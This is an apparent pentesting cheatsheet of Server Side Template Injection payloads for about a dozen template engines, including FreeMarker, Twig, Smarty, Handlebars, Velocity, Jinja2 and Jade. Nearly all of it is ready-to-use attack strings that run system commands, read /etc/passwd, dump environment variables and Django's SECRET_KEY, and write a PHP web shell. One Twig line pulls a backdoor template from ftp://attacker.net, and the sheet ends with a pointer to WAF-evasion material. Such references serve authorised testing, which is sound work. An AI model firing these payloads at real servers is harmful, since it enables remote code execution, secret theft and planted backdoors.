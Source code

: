 Server Side Template Injection (SSTI) Cheatsheet
================


## Polyglot:
```
${{<%[%'"}}%\
```

## FreeMarker (Java):
```
${7*7} = 49
<#assign command="freemarker.template.utility.Execute"?new()> ${ command("cat /etc/passwd") }
```
## (Java):
```
${7*7}
${{7*7}}
${class.getClassLoader()}
${class.getResource("").getPath()}
${class.getResource("../../../../../index.htm").getContent()}
${T(java.lang.System).getenv()}
${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/etc/passwd').toURL().openStream().readAllBytes()?join(" ")}
```
## Twig (PHP):
```
{{7*7}}
{{7*'7'}}
{{dump(app)}}
{{app.request.server.all|join(',')}}
"{{'/etc/passwd'|file_excerpt(1,30)}}"@
{{_self.env.setCache("ftp://attacker.net:2121")}}{{_self.env.loadTemplate("backdoor")}}
```
## Smarty (PHP):
```
{$smarty.version}
{php}echo `id`;{/php}
{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['cmd']); ?>",self::clearConfig())}
````
## Handlebars (NodeJS):
```
wrtz{{#with "s" as |string|}}
{{#with "e"}}
{{#with split as |conslist|}}
{{this.pop}}
{{this.push (lookup string.sub "constructor")}}
{{this.pop}}
{{#with string.split as |codelist|}}
{{this.pop}}
{{this.push "return require('child_process').exec('whoami');"}}
{{this.pop}}
{{#each conslist}}
{{#with (string.sub.apply 0 codelist)}}
{{this}}
{{/with}}
{{/each}}
{{/with}}
{{/with}}
{{/with}}
{{/with}}
```
## Velocity:
```
#set($str=$class.inspect("java.lang.String").type)
#set($chr=$class.inspect("java.lang.Character").type)
#set($ex=$class.inspect("java.lang.Runtime").type.getRuntime().exec("whoami"))
$ex.waitFor()
#set($out=$ex.getInputStream())
#foreach($i in [1..$out.available()])
$str.valueOf($chr.toChars($out.read()))
#end
```
## ERB (Ruby):
```
<%= system("whoami") %>
<%= Dir.entries('/') %>
<%= File.open('/example/arbitrary-file').read %>
```
## Django Tricks (Python):
{% debug %}
{{settings.SECRET_KEY}}
```
#Tornado (Python):
{% import foobar %} = Error
{% import os %}{{os.system('whoami')}}
```
## Mojolicious (Perl):
```
<%= perl code %>
<% perl code %>
```
## Flask/Jinja2: Identify:
```
{{ '7'*7 }}
{{ [].class.base.subclasses() }} # get all classes
{{''.class.mro()[1].subclasses()}}
{%for c in [1,2,3] %}{{c,c,c}}{% endfor %}
```
## Flask/Jinja2: 
```
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
```
## Jade:
```
#{root.process.mainModule.require('child_process').spawnSync('cat', ['/etc/passwd']).stdout}
```
## Razor (.Net):
```
@(1+2)
@{// C# code}
```

If you need to evade WAF check this site out: https://gusralph.info/jinja2-ssti-research/


[Source](https://blog.cobalt.io/a-pentesters-guide-to-server-side-template-injection-ssti-c5e3998eae68)
[More Useful Information](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)
[Even More](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#twig)